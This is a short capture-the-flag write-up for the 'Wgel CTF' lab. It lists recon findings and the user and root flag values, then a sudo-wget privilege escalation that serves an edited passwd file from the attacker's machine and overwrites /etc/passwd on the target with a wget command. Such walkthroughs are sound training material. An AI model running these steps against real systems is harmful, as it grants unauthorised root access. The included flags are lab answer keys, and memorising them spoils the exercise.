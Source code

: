 # WGEL CTF

## BASIC INFO
```
export IP=10.10.18.17
```

Found possible username on main page.`Jessie`\
Found `sitemap` from gobuster.\
Found `.ssh` on `sitemap` with dirb\

> - **User flag**
>> 057c67131c3d5e42dd5cd3075b198ff6

> - **Root flag**
>> b1b968b37519ad1daa6408188649263d

Running `sudo -l` we found out that we can run `wget`.\
`cat /etc/passwd` and copy it to our host machine. Using python3 crypt library to hash the password that we choosen and modify passwd locally.
```python
python3
import crypt
crypt.crypt("hi")
```
Then copy the hash and replace the `x` in `root:x:0:0:root:/root:/bin/bash` with the hash.\
Now fire up a server on our local machine with `python3 -m http.server`\
On the remote machine run the command `wget http://host_ip:8000/passwd -O /etc/passwd` and this should overwrite the passwd.\
Next just run `su` and enter password that we choose just now.